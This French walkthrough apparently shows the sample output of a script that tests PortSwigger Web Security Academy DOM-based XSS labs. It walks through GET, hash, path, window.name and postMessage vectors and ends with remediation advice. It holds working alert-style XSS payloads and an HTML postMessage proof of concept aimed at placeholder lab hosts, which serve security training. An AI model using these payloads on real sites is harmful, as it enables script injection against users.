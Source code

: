 #MANPAGE

Voici un **exemple exhaustif de l’exécution du script** pour tous les challenges DOM-based XSS PortSwigger, avec le détail de chaque phase (analyse, attaque, contrôle) et les résultats attendus pour chaque vecteur testé :

---

## Lancement du script

```bash
chmod +x script.sh
./script.sh
```

---

## Sortie typique et comportement séquentiel

### 1. Analyse statique automatique

```
------------------------------------------------------
[Analyse] Détection automatique des sources/sinks DOM XSS dans le code source...
  [!] Source détectée : location.search
  [!] Sink détecté : document.write
  [!] Sink détecté : innerHTML
  => Pour une analyse dynamique, ouvrez la page dans Burp Suite DOM Invader ou le navigateur (voir [1][6]).
```
*Le script inspecte le HTML/JS de la page cible et liste les sources/sinks DOM XSS trouvées (ex : `location.search`, `document.write`, `innerHTML`), ce qui indique les vecteurs à privilégier pour l’attaque[1][2][4][8].*

---

### 2. Test via paramètres GET (`location.search`, `innerHTML`, etc.)

```
------------------------------------------------------
[Vecteur 1] DOM XSS via paramètres GET (location.search, innerHTML, etc.)
  [+] Payload reflété pour search : https://<your-lab>.web-security-academy.net/?search=%3Cscript%3Ealert('domxss')%3C%2Fscript%3E
      => POTENTIELLEMENT VULNÉRABLE (payload retrouvé dans la réponse HTML)
  [-] Payload non reflété pour q : https://<your-lab>.web-security-academy.net/?q=%3Cscript%3Ealert('domxss')%3C%2Fscript%3E
  ...
  [Contrôle dynamique] : Ouvrez les liens reflétant le payload dans un navigateur ou Burp DOM Invader pour valider l’exécution JS côté client[1][4][6][8].
```
*Le script injecte chaque payload XSS dans chaque paramètre courant et vérifie si le payload est reflété dans la réponse HTML. Si oui, il signale la vulnérabilité potentielle. Il recommande ensuite de valider l’exécution réelle dans un navigateur ou Burp DOM Invader[1][4][6][8].*

---

### 3. Test via hash/fragment (`location.hash`)

```
------------------------------------------------------
[Vecteur 2] DOM XSS via hash/fragment (location.hash, etc.)
  [!] La page lit location.hash. Testez dynamiquement : https://<your-lab>.web-security-academy.net/#<img src=x onerror=alert('hashdomxss')>
      => POTENTIELLEMENT VULNÉRABLE
  [Contrôle dynamique] : Ouvrez les liens dans un navigateur ou Burp DOM Invader pour valider l’exécution du payload[1][6].
```
*Le script détecte l’utilisation de `location.hash` et propose des liens de test à ouvrir dans le navigateur. Si l’alerte JS apparaît, la faille est confirmée[1][6].*

---

### 4. Test via path (`location.pathname`)

```
------------------------------------------------------
[Vecteur 3] DOM XSS via path (location.pathname, etc.)
  [-] Payload non reflété dans le path : https://<your-lab>.web-security-academy.net/<img src=x onerror=alert('pathdomxss')>
  [Contrôle dynamique] : Ouvrez les liens reflétant le payload dans un navigateur pour valider l’exécution JS[1][6].
```
*Le script teste si le payload injecté dans le path est reflété dans la réponse. Si oui, il recommande de valider dans le navigateur.*

---

### 5. Test via window.name

```
------------------------------------------------------
[Vecteur 4] DOM XSS via window.name
  [!] La page lit window.name. Testez dynamiquement dans la console JS :
      window.name='<img src=x onerror=alert('namedomxss')>'; window.location='https://<your-lab>.web-security-academy.net';
      => POTENTIELLEMENT VULNÉRABLE
  [Contrôle dynamique] : Exécutez la commande ci-dessus dans la console JS du navigateur et observez l’exécution du payload[1][6].
```
*Le script détecte l’utilisation de `window.name` et propose une commande JS à exécuter dans la console du navigateur pour valider l’exploitabilité.*

---

### 6. Test via postMessage

```
------------------------------------------------------
[Vecteur 5] DOM XSS via postMessage
  [!] La page utilise postMessage. Testez dynamiquement avec la PoC suivante :
<!DOCTYPE html>
<html>
  <body>
    <script>
      var target = window.open("https://<your-lab>.web-security-academy.net", "targetWin");
      setTimeout(function() {
        target.postMessage("<img src=x onerror=alert('postmsgdomxss')>", "*");
      }, 1000);
    </script>
  </body>
</html>
      => POTENTIELLEMENT VULNÉRABLE
  [Contrôle dynamique] : Ouvrez la PoC HTML dans un navigateur et observez l’exécution du payload dans la page cible[1][6].
```
*Le script détecte l’utilisation de postMessage, génère une PoC HTML à tester, et explique comment valider la faille.*

---

### 7. Conseils/remédiation

```
------------------------------------------------------
[Remédiation & Conseils]
- Si un payload est reflété ou exécutable côté client, la page est probablement vulnérable à une DOM XSS.
- Pour corriger :
  * N’utilisez jamais de données non filtrées issues de l’URL ou du DOM dans des sinks dangereux (innerHTML, document.write, etc.).
  * Préférez textContent à innerHTML.
  * Utilisez Trusted Types si possible.
  * Analysez le JS avec ESLint (plugin Mozilla).
- Pour confirmation, ouvrez la page dans Burp Suite DOM Invader ou le navigateur et testez les PoC générés.
- Documentation PortSwigger : https://portswigger.net/web-security/cross-site-scripting/dom-based
```
*Le script termine par un rappel des bonnes pratiques de remédiation et des outils de validation dynamique (Burp DOM Invader, navigateur)[1][6].*

---

### 8. Synthèse finale

```
------------------------------------------------------
[SYNTHÈSE]
1. Le script a analysé le code source à la recherche de sources/sinks DOM XSS.
2. Il a testé chaque vecteur (GET, hash, path, window.name, postMessage) et contrôlé si le payload est exploitable.
3. Pour confirmation, ouvrez les liens/PoC dans un navigateur ou Burp DOM Invader.
4. Appliquez les recommandations de remédiation si une faille est trouvée.
------------------------------------------------------
```

---

